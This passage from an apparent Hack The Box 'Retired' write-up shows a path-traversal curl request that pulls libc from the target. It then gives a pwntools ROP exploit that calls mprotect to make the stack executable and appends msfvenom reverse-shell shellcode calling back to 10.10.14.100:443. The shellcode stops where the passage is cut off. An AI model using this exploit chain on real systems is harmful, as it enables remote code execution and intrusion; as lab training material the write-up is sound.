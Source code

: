 Exploit the arbitrary file read vulnerability to download the target's `libc`.

```bash
$ curl -s 'http://10.129.128.14/index.php?page=js/.....///.....///.....///.....///usr/lib/x86_64-linux-gnu/libc-2.31.so' --output libc-2.31.so
$ ls libc-2.31.so
libc-2.31.so
```

The following script can be used to exploit the buffer overflow vulnerability.

```python
import argparse
import io

from pwnlib.elf.elf import ELF
from pwnlib.util.packing import p64
import requests


# Parse command line arguments
parser = argparse.ArgumentParser(description="Foothold exploit for HTB Retired")
parser.add_argument("target_ip", help="FQDN or IP address of Retired box")
parser.add_argument("binary_path", help="Local path to activate_license1337 binary")
parser.add_argument("libc_path", help="Local path to libc shared object file")
parser.add_argument("--binary-base-addr", type=lambda x: int(x, 16), help="Base address of activate_license1337 (in hex)")
parser.add_argument("--libc-base-addr", type=lambda x: int(x, 16), help="Base address of libc (in hex)")
parser.add_argument("--stack-base-addr", type=lambda x: int(x, 16), help="Base address of stack segment (in hex)")
parser.add_argument("--stack-end-addr", type=lambda x: int(x, 16), help="Final address of stack segment (in hex)")
args = parser.parse_args()

# Base addresses from /proc/$PID/maps
elf = ELF(args.binary_path)
libc = ELF(args.libc_path)
elf.address = args.binary_base_addr
libc.address = args.libc_base_addr
stack_address_begin = args.stack_base_addr
stack_address_end = args.stack_end_addr

# Dynamic addresses
pop_rdi_ret_address = next(elf.search(b"\x5f\xc3", executable=True))
pop_rsi_ret_address = next(libc.search(b"\x5e\xc3", executable=True))
pop_rdx_ret_address = next(libc.search(b"\x5a\xc3", executable=True))
jmp_esp_address = next(libc.search(b"\x54\xc3", executable=True))

# Build payload
payload  = b"A" * 520						# 520 is RIP offset

payload += p64(pop_rdi_ret_address)
payload += p64(stack_address_begin)
payload += p64(pop_rsi_ret_address)
payload += p64(stack_address_end - stack_address_begin)
payload += p64(pop_rdx_ret_address)
payload += p64(7)
payload += p64(libc.sym["mprotect"])		# Set the stack's executable bit with mprotect

payload += p64(jmp_esp_address)				# jmp esp instruction to get back to shellcode

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.100 LPORT=443 EXITFUNC=thread -f python -b '\x00'
payload += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
```